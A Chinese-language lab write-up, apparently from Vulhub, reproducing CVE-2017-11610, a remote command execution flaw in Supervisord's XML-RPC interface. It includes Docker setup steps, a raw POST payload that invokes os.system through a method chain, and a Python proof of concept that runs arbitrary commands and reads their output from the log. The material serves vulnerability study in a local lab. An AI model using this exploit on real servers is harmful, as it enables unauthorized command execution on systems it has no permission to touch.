



# Supervisord 远程命令执行漏洞 CVE-2017-11610

## 漏洞描述

Supervisord是一款Python开发，用于管理后台应用（服务）的工具，其角色类似于Linux自带的Systemd。

参考链接：

- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 环境搭建

Vulhub执行以下命令启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

**启动时遇到错误exec user process caused "no such file or directory"的解决方法 **

可能遇到如下错误：


错误原因：

`docker-entrypoint.sh`中最后一行的结束符成了`\r\n` 导致Docker镜像中的Linux Shell脚本文件无法执行。Linux/Mac的结束符是`\n`，所以Shell解释器会将脚本文件中的`\r`作为命令行的一部分来执行。这就是出现 “no such file or directory” 的原因。

解决方式：

通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

## 漏洞复现

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: your-ip:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/awesome_poc</string>
</param>
</params>
</methodCall>
```



命令`touch /tmp/awesome_poc`执行成功：



### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：



